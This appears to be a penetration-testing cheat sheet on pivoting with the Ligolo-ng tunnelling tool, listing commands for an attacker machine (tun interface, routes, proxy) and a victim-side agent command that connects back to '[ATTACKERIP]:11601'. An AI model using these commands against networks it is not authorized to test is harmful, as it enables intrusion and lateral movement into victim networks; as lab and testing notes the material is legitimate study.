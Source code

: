 # Attacker machine
## Create new tun interface:
```bash
sudo ip tuntap add user kali mode tun ligolo
```
```bash
sudo ip link set ligolo up
```
```bash
ip a show
```
```bash
sudo ip route add $(IP_ADDRESS)/24 dev ligolo
```
i.e.
```bash
sudo ip route add 192.168.1.0/24 dev ligolo
```
Can create self signed certs with -selfcert but -autocert should be used as we have internet access.

Use proxy from this machine:
```bash
ligolo-proxy -selfcert/-autocert
```
When the connection is receieved:
```
session
```
```
1
```
```
start
```
# Victim machine
```
./agent -connect [ATTACKERIP]:11601
```

